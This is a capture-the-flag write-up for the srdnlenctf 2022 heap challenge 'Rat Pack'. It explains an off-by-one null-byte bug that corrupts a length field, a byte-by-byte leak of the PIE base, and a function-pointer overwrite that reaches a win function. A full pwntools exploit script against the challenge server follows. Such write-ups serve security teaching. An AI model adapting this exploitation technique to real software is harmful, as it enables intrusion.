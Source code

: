 # srdnlenctf 2022

## Rat Pack (11 solves)

A fairly standard heap-based pwn challenge.
Easier to exploit because the execution target is in the base offset.
It's possible to perform unlimited operations, but only a number
of simultaneous allocations.

The flag is a text file in the same folder as the binary.

### Solution

There is a combination of three bugs in the string termination function.
An off by one error in strings that are len-1 long (but not len)
allows you to write a null byte one byte too far.
This allows us to inject a null byte into the length field,
and due to the way the length check is implemented, the next write can be of arbitrary length.
It can be useful to note that for strings of exactly max length the program does not terminate the string at all.

With this primitive, you can allocate a new chunk and overwrite a function pointer
in the new chunk's structure. This gives you execution.

Finding an execution target is easy: in the current version, the binary has a win function.
The binary is PIE, but win() is on the same segment as dialogue(). Therefore we can use
a quirk of the print bug (incorrectly terminating one character
ahead of the actual end if we are below max length) to leak the base offset one byte at a time.
This process will overwrite the next byte with a null byte, so you will need three chunks in total.

This is the easiest way. It's also possible to attack the length parameter more explicitly by
setting a max length with the first arbitrary write.
This allows to leak the entire pointer in one go by setting the length parameter
to exactly the overflow length with a previous write,
and then to only change the page+offset bytes instead of the whole pointer by setting it to the right value.

### Exploit

```python
from pwn import *

e = ELF('./rats')

dialogue_offset = e.functions._Z8dialogueP3rat.address
print(hex(dialogue_offset))



# r = process('./rats')
r = remote('rats.challs.srdnlen.it', 10300)

# Exploit method: single byte leak

# Reach exploit portion: Allocate three rats.
# First rat has 15 character long name.
# Second rat is there to trigger the bug and leak 4 even bytes.
# Third rat leaks 4 odd bytes
r.writeline(b'1')
r.readuntil(b'a name')
r.writeline(b'123456789012345')
r.readuntil(b'Quit.')
r.writeline(b'1')
r.readuntil(b'a name')
r.writeline(b'123456789012345')
r.readuntil(b'Quit.')
r.writeline(b'1')
r.readuntil(b'a name')
r.writeline(b'victim2')
r.readuntil(b'Quit.')

full_pointer = 0

# Leak one byte at a time

# start with victim 2's odd bytes
for i in range(4):
    r.writeline(b'3')
    r.readuntil(b'number')
    r.writeline(b'1')
    r.readuntil(b'a name')
    payload = b'z'*(40+2*i + 1)
    r.writeline(payload)
    r.readuntil(b'Quit.')
    r.writeline(b'2')
    r.readuntil(b'number')
    r.writeline(b'1')
    r.readuntil(payload)
    byteleak = r.readline()
    print(byteleak)
    if byteleak==b'.\n': # String is terminated without leak = leaked byte is null
        byteleak = [0]
    print(hex(byteleak[0]))
    full_pointer += byteleak[0]<<(8*(2*i + 1))

# Continue with victim 1's even bytes
for i in range(4):
    r.writeline(b'3')
    r.readuntil(b'number')
    r.writeline(b'0')
    r.readuntil(b'a name')
    payload = b'z'*(40+2*i)
    r.writeline(payload)
    r.readuntil(b'Quit.')
    r.writeline(b'2')
    r.readuntil(b'number')
    r.writeline(b'0')
    r.readuntil(payload)
    byteleak = r.readline()
    print(byteleak)
    if byteleak==b'.\n': # String is terminated without leak = leaked byte is null
        byteleak = [0]
    print(hex(byteleak[0]))
    full_pointer += byteleak[0]<<(8*2*i)

print(hex(full_pointer))
win_ptr = full_pointer - dialogue_offset + e.functions._Z3winv.address


# Execute win function!
r.writeline(b'3')
r.readuntil(b'number')
r.writeline(b'0')
r.readuntil(b'a name')
payload = b'z'*40 + p64(win_ptr)
r.writeline(payload)
r.readuntil(b'Quit.')
r.writeline(b'2')
r.readuntil(b'number')
r.writeline(b'1')
r.readuntil('srdnlen{')
flag = r.readuntil('}')
r.close()

print('srdnlen{' + flag.decode('utf8'))
```

